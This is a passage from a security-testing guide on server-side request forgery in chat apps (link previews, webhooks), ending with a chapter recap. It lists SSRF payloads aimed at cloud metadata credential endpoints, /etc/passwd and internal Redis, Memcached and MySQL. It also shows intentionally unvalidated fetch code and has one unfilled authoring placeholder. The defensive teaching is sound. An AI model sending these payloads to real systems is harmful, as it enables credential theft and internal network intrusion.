Chat applications frequently fetch external content to enhance user experience: link previews for shared URLs, webhook integrations with external services, avatar image fetching from user-provided URLs, and integration with external APIs for rich content display. These features create opportunities for Server-Side Request Forgery attacks when your application makes requests based on user-controlled input.

Consider your link preview functionality. Users share URLs in chat conversations, and your application automatically fetches webpage content to display rich previews with titles, descriptions, and images. This feature improves user experience by providing context about shared links without requiring users to navigate away from the chat interface.

[,javascript]
----
const axios = require('axios');

async function generateLinkPreview(url) {
    try {
        // User controls the URL through chat message input
        const response = await axios.get(url, {
            timeout: 5000,
            maxRedirects: 3
        });

        const preview = extractPreviewData(response.data);
        return preview;
    } catch (error) {
        return null;
    }
}
----

This implementation appears secure with reasonable timeout and redirect limits. Your application validates that user input represents a valid URL format and implements basic protection against obvious malicious requests. The functionality works correctly for legitimate web URLs that users typically share.

But SSRF attacks exploit the trust relationship between your chat server and internal network resources. When your application makes requests based on user input, attackers can target internal services, cloud metadata endpoints, or network resources that should remain inaccessible from external networks.

An attacker shares this URL in a chat message:

----
http://169.254.169.254/latest/meta-data/iam/security-credentials/
----

Your link preview system faithfully fetches this URL, but instead of accessing external web content, the request targets AWS instance metadata service. The response contains temporary security credentials for your cloud infrastructure, which the attacker can extract from the preview data or error messages returned by your application.

Similar attacks target internal administrative interfaces, database management systems, or service discovery endpoints:

[,javascript]
----
const ssrfPayloads = [
    "http://localhost:3000/admin/users",        // Internal admin interface
    "http://127.0.0.1:6379/",                   // Redis database
    "file:///etc/passwd",                       // Local file access
    "gopher://localhost:11211/stats",           // Memcached access
    "dict://localhost:3306/",                   // MySQL protocol
    "http://[::1]:8080/health",                 // IPv6 localhost
];
----

Your webhook integration system presents another SSRF vector. Chat applications often allow administrators to configure webhook URLs for integration with external services. These webhooks receive notifications about chat events, user activities, or administrative actions.

[,javascript]
----
// Webhook configuration through admin interface
async function configureWebhook(webhookConfig) {
    const testPayload = { event: 'test', timestamp: Date.now() };

    // Administrator controls webhook URL
    // SSRF occurs during webhook testing or notification delivery
    await axios.post(webhookConfig.url, testPayload);

    saveWebhookConfiguration(webhookConfig);
}
----

When administrators can configure arbitrary webhook URLs, SSRF enables access to internal network resources through your chat server's network position. Administrative webhook configuration becomes a vector for internal network reconnaissance and exploitation.

*Systematic SSRF Discovery*

Traditional testing validates URL handling using normal web URLs that point to legitimate external resources. Developers verify that link previews work correctly, webhook integrations function as expected, and external content fetching provides appropriate user experience. Testing rarely explores URLs designed to target internal network resources or exploit trust relationships.

[,javascript]
----
// SSRF payload generation targeting chat application URL processing
function generateSSRFPayloads(fuzzer) {
    const internalTargets = [
        // AWS metadata service
        "http://169.254.169.254/latest/meta-data/",
        // Google Cloud metadata
        "http://metadata.google.internal/computeMetadata/v1/",
        // Azure metadata
        "http://169.254.169.254/metadata/instance",
        // Local services
        "http://localhost:3000/admin",
        "http://127.0.0.1:6379/info",
        // IPv6 variants
        "http://[::1]:8080/health",
        // Protocol confusion
        "file:///etc/passwd",
        "gopher://localhost:11211/stats",
        "dict://localhost:3306/",
    ];

    return fuzzer.mutateURLStructures(internalTargets);
}
----

Your chat application's external content fetching provides multiple attack vectors for SSRF testing. Link preview systems process user-provided URLs from chat messages. Webhook integrations make requests to administrator-configured endpoints. Avatar image fetching accesses user-provided image URLs. External API integrations might construct requests based on user input or configuration data.

The generation strategy focuses on URLs that target internal network resources while remaining focused on your chat application's specific external request patterns. Test various internal addressing schemes: localhost variations, private network ranges, cloud metadata endpoints, and protocol confusion attacks. Generate payloads targeting different request libraries and URL parsing implementations.

[PLACEHOLDER:CODE SSRF_Discovery_Harness. Comprehensive harness targeting URL processing in chat link previews, webhook configurations, and external content fetching. Generates SSRF payloads for internal network reconnaissance while monitoring request destinations and response content. High value. Demonstrates systematic discovery of SSRF vulnerabilities in chat application external request handling.]

Detection requires monitoring external request destinations and response content rather than just request success or failure. Track whether your application makes requests to internal network addresses, private IP ranges, or cloud metadata endpoints. Verify that URL validation prevents access to unauthorized network resources. Confirm that SSRF attacks actually access internal resources rather than just causing request errors.

SSRF vulnerabilities become particularly dangerous in chat applications because external content fetching often occurs with elevated network privileges in cloud environments. Internal network access through SSRF enables infrastructure reconnaissance, credential theft, and lateral movement within your deployment environment. Single malicious URLs can compromise your entire infrastructure through your chat application's network position.

The systematic approach reveals whether your chat application's external request handling properly validates and restricts request destinations to authorized external resources.

'''

=== *Chapter Recap: Mastering Chat Application Security Through Systematic Testing*

You've developed comprehensive expertise in discovering security vulnerabilities within chat application code you wrote and control. Beginning with message content injection vulnerabilities that affect user-facing features, you progressed through prototype pollution attacks using real CVEs like dset, authentication bypasses through type confusion, performance traps in input validation, template injection enabling code execution, and SSRF attacks targeting internal networks.

*Your Security Testing Transformation*

The systematic approach fundamentally changes how you think about chat application security. Instead of hoping manual testing catches security vulnerabilities, you now systematically explore attack vectors specific to chat features: user authentication and room access control, message processing and content rendering, template handling and external content fetching, input validation and performance characteristics.

Your chat application now benefits from security testing specifically designed for the unique attack surfaces present in real-time communication platforms. Authentication bypass testing targets room permission logic you implemented. Message injection testing discovers vulnerabilities in content processing you designed. Template injection testing reveals code execution risks in notification systems you built. SSRF testing exposes network access issues in content fetching you architected.

*Chat Application Security Expertise Achieved*

You can now assess your chat application's security posture based on actual implementation architecture rather than generic web application security checklists. Your testing focuses on vulnerabilities in code you control: permission checking functions, message validation logic, template processing components, external request handling, and input validation systems.

This targeted approach provides immediate actionable results rather than theoretical security advice. You discover authentication bypasses in room access control within minutes of systematic testing. Message rendering vulnerabilities become apparent through systematic injection testing. Template injection risks reveal themselves through systematic payload testing. Each discovery represents a vulnerability you can fix immediately because it exists in code you wrote.

*The Chat Application Security Advantage*

Most chat application developers rely on generic web application security tools that don't understand chat-specific attack vectors: room permission models, real-time message processing, template-based notifications, or external content integration. Your systematic testing approach discovers vulnerabilities specific to chat application features that generic security scanners miss entirely.

While other development teams discover chat application security issues through production incidents, expensive penetration testing, or user reports, you find vulnerabilities during development through systematic testing approaches that run continuously in your development workflow. This early discovery prevents security incidents while maintaining development velocity and user trust.

=== *Next Steps: Scaling Chat Application Security Across Development Teams*

Your chat application now benefits from systematic security testing tailored to real-time communication platform vulnerabilities, but individual security testing efforts need coordination to protect your entire chat application ecosystem. One developer securing their chat features provides immediate value; an entire development organization preventing chat application security incidents creates sustainable competitive advantages.

Chapter 8 demonstrates how to scale the individual chat application security testing techniques you've mastered into automated pipelines serving multiple development teams efficiently. You'll discover how to package chat application security testing capabilities into Docker containers providing consistent testing environments, integrate vulnerability discovery into CI/CD systems maintaining development velocity while ensuring security coverage, and build monitoring systems tracking security improvement across your entire chat application development portfolio.

The authentication bypass, message injection, and template injection discovery techniques you've learned will scale to organization-wide chat application security programs through automation, orchestration, and intelligent resource management. Your individual expertise in securing chat application features becomes the foundation for systematic vulnerability prevention across every real-time communication platform your organization deploys.
